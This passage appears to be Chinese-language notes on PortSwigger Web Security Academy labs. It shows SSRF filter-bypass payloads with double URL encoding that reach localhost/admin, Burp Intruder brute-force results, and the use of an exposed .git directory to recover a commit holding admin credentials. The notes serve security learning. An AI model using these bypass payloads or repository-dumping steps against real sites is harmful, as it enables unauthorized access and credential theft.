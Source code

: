 ```
\
:
```
构造的payload为：
```
stockApi=http%3A%2F%2Fstock.weliketoshop.net§X§localhost/admin
```
以及
```
stockApi=http%3A%2F%2Flocalhost§X§%2Fstock.weliketoshop.net/admin
```
然后在intruder里Payload Type选择`Custom iterator`，对Position1,2,3进行组合之后爆破。
记得在发出之前对请求进行url编码。

![image](https://user-images.githubusercontent.com/30398606/143370505-e51c4091-08ba-43e1-bb7f-3996c5ae85cb.png)

![image](https://user-images.githubusercontent.com/30398606/143370462-050f2ddc-4603-48c1-922c-324b842d74e6.png)

最后得到可用的payload为：
```
603	%25%32%33%25%32%35%40	200	false	false	3042	
613	%25%32%33%25%34%30%40	200	false	false	3042	
623	%25%32%33%25%32%33%40	200	false	false	3042	
633	%25%32%33%25%35%63%40	200	false	false	3042	
643	%25%32%33%25%33%61%40	200	false	false	3042	
693	%25%32%33%3a%40	        200	false	false	3042	
```
![image](https://user-images.githubusercontent.com/30398606/143374668-27f6aae9-bd1b-4eee-adca-6218381e4999.png)

从结果可以看出，只有`#`需要编码两次，其他的字符`@`，以及`#`和`@`之前的任意字符编码0-1次都行。

## 信息泄露
### git泄露
使用这个：https://github.com/lijiejie/GitHack
只是恢复到最新版本，想要从历史版本中拿到信息，需要先恢复到历史版本。

```
wget -r -p -np -k https://ac811fd51f384810c034064700c800c6.web-security-academy.net/.git/

cqq@cqq:~/repos/githacker/ac811fd51f384810c034064700c800c6.web-security-academy.net$ git log
error: unable to open object pack directory: .git/objects/pack: Not a directory
commit f5caf8aee8cbae21767b6a9b1d5a631a4f9bee3a (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 9da676888a6391f937f50b8a590250bd61773a4e
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
cqq@cqq:~/repos/githacker/ac811fd51f384810c034064700c800c6.web-security-academy.net$ git reset --hard 9da676888a6391f937f50b8a590250bd61773a4e
error: unable to open object pack directory: .git/objects/pack: Not a directory
HEAD is now at 9da6768 Add skeleton admin panel
cqq@cqq:~/repos/githacker/ac811fd51f384810c034064700c800c6.web-security-academy.net$ ls -al
total 20
drwxrwxr-x 3 cqq cqq 4096 Nov 22 03:09 .
drwxrwxr-x 7 cqq cqq 4096 Nov 22 03:06 ..
-rw-rw-r-- 1 cqq cqq   36 Nov 22 03:09 admin.conf
-rw-rw-r-- 1 cqq cqq   88 Nov 22 03:09 admin_panel.php
drwxrwxr-x 7 cqq cqq 4096 Nov 22 03:09 .git
```